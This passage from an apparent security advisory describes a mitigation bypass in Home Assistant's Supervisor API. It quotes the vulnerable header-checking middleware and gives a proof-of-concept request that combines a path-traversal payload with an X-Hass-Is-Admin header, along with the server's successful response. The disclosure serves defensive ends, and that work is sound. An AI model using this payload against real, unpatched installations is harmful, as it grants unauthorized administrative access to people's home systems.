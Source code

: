 ```py
                content_type_index = idx
            elif key == b"X-Hass-User-ID":
                user_request = True
            elif key == b"X-Hass-Is-Admin":
                admin_request = value == b"1"
            elif key == b"X-Ingress-Path":
                ingress_request = True

        if user_request or admin_request:
            return await handler(request)

        is_proxy_request = (
            authorization_index is not None
            and content_type_index is not None
            and content_type_index - authorization_index == 1
        )

        if (
            not CORE_FRONTEND.match(request.path) and is_proxy_request
        ) or ingress_request:
            raise HTTPBadRequest()
        return await handler(request)
```

If either `X-Hass-User-ID` or `X-Hass-Is-Admin` headers are provided, the request is allowed through, bypassing the final ingress check. Since the ingress endpoint allows passing these headers, by including either of these headers, combined with the payload from the first bypass, it is possible to access the Supervisor API on HA Core up to 2023.3.1 and on HA Supervisor up to 2023.03.2.

## Proof of Concept

```
$ http http://192.168.1.208:8123/api/hassio_ingress/.%09./supervisor/info X-Hass-Is-Admin:1
HTTP/1.1 200 OK
Date: Fri, 24 Mar 2023 03:57:50 GMT
Server: Python/3.10 aiohttp/3.8.4
Connection: close
Content-Type: application/json
Content-Length: 1050

{
  "result": "ok",
  "data": {
    "version": "2023.03.2",
    "version_latest": "2023.03.dev2103",
    "update_available": false,
    "channel": "dev",
    "arch": "amd64",
    "supported": false,
    "healthy": true,
    [...]
  }
}
```

The impact is exactly the same as in CVE-2023-27482.

# Discovered

- Original bug: February 2023, Joseph Surin, elttam
- Mitigation bypass 1: March 2023, Joseph Surin, elttam
- Mitigation bypass 2: March 2023, Victor Kahan, elttam
